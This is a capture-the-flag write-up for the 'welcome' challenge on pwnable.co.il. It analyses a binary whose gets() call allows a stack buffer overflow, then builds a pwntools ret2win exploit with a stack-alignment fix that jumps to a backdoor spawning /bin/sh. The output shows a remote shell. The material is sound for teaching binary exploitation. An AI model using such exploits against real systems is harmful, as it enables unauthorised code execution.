

# welcome Writeup

## Challenge infos

```text
Welcome to Pwnable.co.il!
I hope you'll like this one...

Challenge is running at: nc pwnable.co.il 9000
```

## Executable analysis
### checksec output
```text
        Arch:       amd64-64-little
        RELRO:      🟡 Partial RELRO
        Stack:      🔴 No canary found
        NX:         🟢 NX enabled
        PIE:        🔴 No PIE (0x400000)
        Stripped:   🔴 No
```
* as we can see, the binary is not PIE, has no canary, and the NX bit is enabled.
* this means that we know the address of all symbols in the binary, we can use ROP to execute code, but cannot run shellcode on the stack.
### main disassembly
```asm
   0x0000000000400719 <+0>:     push   rbp
   0x000000000040071a <+1>:     mov    rbp,rsp
   0x000000000040071d <+4>:     sub    rsp,0x20
   0x0000000000400721 <+8>:     mov    eax,0x0
   0x0000000000400726 <+13>:    call   0x4006a7 <init_buffering>
   0x000000000040072b <+18>:    mov    edi,0x4007f8
   0x0000000000400730 <+23>:    call   0x400590 <puts@plt>
   0x0000000000400735 <+28>:    mov    edi,0x400812
   0x000000000040073a <+33>:    call   0x400590 <puts@plt>
   0x000000000040073f <+38>:    lea    rax,[rbp-0x20]
   0x0000000000400743 <+42>:    mov    rdi,rax
   0x0000000000400746 <+45>:    mov    eax,0x0
   0x000000000040074b <+50>:    call   0x4005c0 <gets@plt>
   0x0000000000400750 <+55>:    lea    rax,[rbp-0x20]
   0x0000000000400754 <+59>:    mov    rsi,rax
   0x0000000000400757 <+62>:    mov    edi,0x400825
   0x000000000040075c <+67>:    mov    eax,0x0
   0x0000000000400761 <+72>:    call   0x4005b0 <printf@plt>
   0x0000000000400766 <+77>:    mov    eax,0x1
   0x000000000040076b <+82>:    leave
   0x000000000040076c <+83>:    ret
```
* the main function is pretty simple, it prints a welcome message, reads input from the user, and then prints it back.
* we can see that the input is read into a buffer on the stack, which is 32 bytes long (0x20).
* but the gets function is used to read the input, which is dangerous because it does not check the length of the input, allowing us to overflow the buffer.
### symbols
```text
Non-debugging symbols:
0x0000000000400568  _init
0x0000000000400590  puts@plt
0x00000000004005a0  system@plt
0x00000000004005b0  printf@plt
0x00000000004005c0  gets@plt
0x00000000004005d0  setvbuf@plt
0x00000000004005e0  _start
0x0000000000400610  deregister_tm_clones
0x0000000000400640  register_tm_clones
0x0000000000400680  __do_global_dtors_aux
0x00000000004006a0  frame_dummy
0x00000000004006a7  init_buffering
0x0000000000400708  secret_backdoor
0x0000000000400719  main
0x0000000000400770  __libc_csu_init
0x00000000004007d0  __libc_csu_fini
0x00000000004007d4  _fini
```
* we can see that the binary has a function called `secret_backdoor`, which is not called anywhere in the code.
* this function is a good candidate for exploitation, as it is not protected by any security mechanisms and can be called directly.

### secret_backdoor disassembly
```asm
   0x0000000000400708 <+0>:     push   rbp
   0x0000000000400709 <+1>:     mov    rbp,rsp
   0x000000000040070c <+4>:     mov    edi,0x4007f0
   0x0000000000400711 <+9>:     call   0x4005a0 <system@plt>
   0x0000000000400716 <+14>:    nop
   0x0000000000400717 <+15>:    pop    rbp
   0x0000000000400718 <+16>:    ret
```
* the `secret_backdoor` function simply calls the `system` function with the argument `"/bin/sh"`, which will spawn a shell.
* this means that if we can call this function, we can get a shell.

### first exploit attempt
* let's try to exploit the binary by overflowing the buffer and calling the `secret_backdoor` function directly.
* we can do this by sending a payload that overflows the buffer and overwrites the return address with the address of the `secret_backdoor` function.
* the payload will look like this:
```python
io = start()

secret_backdoor = exe.sym['secret_backdoor']
payload = fit({
    40: p64(secret_backdoor)  # Call secret_backdoor
})

io.sendline(payload)
io.interactive()
```
* the out put looks like this:
```text
[+] Starting local process '/home/omri/dev/pwn-writeups/il/welcome/welcome': pid 31119
[*] Switching to interactive mode
Welcome to pwnable.co.il!
What is your name?
Thank you aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaa\x08\x07@!
[*] Got EOF while reading in interactive
$ 
[*] Process '/home/omri/dev/pwn-writeups/il/welcome/welcome' stopped with exit code -11 (SIGSEGV) (pid 31119)
[*] Got EOF while sending in interactive
```
* we got a segmentation fault, which means that the payload is not correct.
* let's try to debug the binary and see what is going wrong.
### debugging the binary
* we can use gdb to debug the binary and see what is going wrong.

* as we can see, the payload is not being executed correctly, and the program is crashing at movaps instruction.
* this is because the stack is not aligned correctly, and the `movaps` instruction requires the stack to be 16-byte aligned.
### Fixing the stack alignment issue
* we can fix this by moving the stack 8 bytes down before the payload, so that the stack is 16-byte aligned.
* we can do this by returning to the `main` function after the payload, which will move the stack 8 bytes down.
### Final exploit code
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template welcome
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'welcome')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: # ./exploit.py REMOTE
        return remote('pwnable.co.il', 9000, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

io = start()

secret_backdoor = exe.sym['secret_backdoor']
main_ret = exe.sym['main'] + exe.functions['main'].size - 1
payload = fit({
    40: p64(main_ret),  # Return to main
    48: p64(secret_backdoor)  # Call secret_backdoor
})

io.sendline(payload)
io.interactive()
```
* now, when we run the exploit, we should get a shell.
```
[+] Opening connection to pwnable.co.il on port 9000: Done
[*] Switching to interactive mode
Welcome to pwnable.co.il!
What is your name?
Thank you aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaal\x07@!
$ ls
flag.txt
welcome
ynetd
$ cat flag.txt
PWNIL{flag_is_here}
```